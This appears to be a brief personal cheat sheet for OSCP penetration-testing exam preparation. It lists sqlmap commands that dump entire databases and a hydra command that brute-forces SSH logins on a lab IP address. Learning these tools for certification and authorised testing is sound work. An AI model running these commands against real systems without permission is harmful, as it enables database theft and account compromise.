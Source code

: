 ```yaml
---
published: false
---
```

# OSCP Prep by fg0x0

### Web Exploitation

### Sqlmap

```
sqlmap -r sql.txt --dbs
sqlmap -r sql.txt -D Staff --dump
sqlmap -r sql.txt -D users --dump

```

### Password Cracking

##### Hydra

```
hydra -L users.txt -P passwords.txt ssh://192.168.56.142:22 -t 10 -I
```

